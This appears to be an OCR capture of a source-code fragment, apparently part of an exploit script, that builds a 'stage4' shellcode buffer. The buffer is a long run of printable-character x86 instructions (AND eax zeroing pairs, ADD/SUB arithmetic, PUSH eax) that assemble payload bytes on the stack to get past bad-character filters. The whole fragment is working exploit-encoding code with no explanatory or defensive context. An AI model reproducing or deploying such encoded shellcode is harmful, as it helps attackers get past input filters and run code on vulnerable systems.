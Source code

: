 ```
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x33\x50\x33\x71" ## add  eax, 0x71335033
stage4 += "\x05\x22\x50\x23\x60" ## add  eax, 0x60235022
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x23\x12\x13\x67" ## add  eax, 0x67131223
stage4 += "\x05\x13\x02\x14\x67" ## add  eax, 0x67140213
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x12\x22\x57\x33" ## add  eax, 0x33572212
stage4 += "\x05\x22\x21\x46\x23" ## add  eax, 0x23462122
stage4 += "\x05\x12\x22\x45\x22" ## add  eax, 0x22452212
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x71\x63\x41\x63" ## add  eax, 0x63416371
stage4 += "\x05\x62\x52\x41\x53" ## add  eax, 0x53415262
stage4 += "\x05\x51\x62\x31\x32" ## add  eax, 0x32316251
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x42\x36\x63\x76" ## add  eax, 0x76633642
stage4 += "\x05\x42\x25\x53\x65" ## add  eax, 0x65532542
stage4 += "\x05\x42\x24\x63\x54" ## add  eax, 0x54632442
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x52\x32\x31\x42" ## add  eax, 0x42313252
stage4 += "\x05\x52\x42\x40\x41" ## add  eax, 0x41404252
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x71\x76\x63\x10" ## add  eax, 0x10637671
stage4 += "\x05\x70\x65\x62\x10" ## add  eax, 0x10626570
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x33\x26\x57\x66" ## add  eax, 0x66572633
stage4 += "\x05\x32\x26\x46\x55" ## add  eax, 0x55462632
stage4 += "\x05\x32\x24\x45\x46" ## add  eax, 0x46452432
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x55\x61\x40\x33" ## add  eax, 0x33406155
stage4 += "\x05\x44\x51\x40\x32" ## add  eax, 0x32405144
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x51\x34\x73\x66" ## add  eax, 0x66733451
stage4 += "\x05\x40\x24\x74\x66" ## add  eax, 0x66742440
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x36\x33\x64\x56" ## add  eax, 0x56643336
stage4 += "\x05\x45\x24\x54\x55" ## add  eax, 0x55542445
stage4 += "\x50"                 ## push eax
```